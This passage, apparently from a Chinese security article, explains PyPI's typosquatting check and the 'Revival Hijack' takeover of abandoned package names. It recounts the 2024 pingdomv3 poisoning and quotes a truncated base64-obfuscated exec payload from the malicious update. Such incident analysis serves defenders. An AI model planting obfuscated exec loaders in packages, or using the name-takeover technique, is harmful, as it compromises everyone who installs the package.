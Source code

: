 - • 如果规范化的包名称在 PyPI 的黑名单包列表中（PyPI 不会发布此列表）  
  
- • 如果规范化的包名称与任何现有的 PyPI 包名称相似。相似度使用以下  
代码计算：  
  
```
SELECT lower(
    regexp_replace(
        regexp_replace(
            regexp_replace($1,'(\.|_|-)','','ig'),
'(l|L|i|I)','1','ig'
),
'(o|O)','0','ig'
)
)
```  
```

```  
  
PyPI 的 SQL 查询，用于在注册新包时检测拼写错误  
  
此代码通过将外观相似的字符替换为相应的数字或删除句点、下划线和连字符等字符来防止简单的拼写错误。这种方法有助于防止注册名称与现有名称相似的软件包，从而降低具有欺骗性或误导性软件包名称的风险。  
  
这些措施涵盖了恶意软件开发人员使用的一些技术，但它们远非全面。虽然它们有助于防止创建某些恶意软件包，但它们并不能完全涵盖所有潜在的漏洞。例如，**如果被删除的项目名称被自动添加到包黑名单**中，现有的黑名单验证可以有效地防止 Revival Hijack 攻击。  
## 真实的攻击事件 -- pingdomv3投毒  
> **PyPI供应链攻击不仅仅是一种理论上的攻击，历史上已经有使用该方法进行恶意攻击的案例 --- pingdomv3投毒。**  
  
  
2024 年 4 月 12 日，“pingdomv3”包的异常活动。该软件包已经获得了新的所有者 。3 月 30 日，新所有者发布了一个看似良性的更新，紧随其后的是另一个版本，引入了可疑的 Base64 混淆有效载荷。  
```
import logging
try:
  from logging import NullHandler
  if NullHandler:
    import base64
    exec(base64.b64decode("dHJ5OgogIC....
...
```  
  
对 “pingdomv3” 程序包中的恶意代码进行加密  
1. 1.   
最初的包所有者   
**cheneyyan**  
 维护着一个   
GitHub 项目[3]  
，该项目现在不可用。他们发布了几个版本，但进行了细微的修改，最后一次合法更新是 2020 年 4 月 7 日的 0.0.6 版。  
  
1. 2.   
后续更新停止，直到 2024 年 3 月 27 日出现 0.1 版。此版本仅引入了一种从 setup.py 调用的方法，该方法显示以下消息：<font style="color:rgb(232, 62, 140);background-color:rgb(243, 243, 243);">'Hello, please avoid using this package as it is no longer supported. Contact cheney.yan@gmail.com!'</font>  
，这表明该项目已被放弃，并建议不要使用它。  
  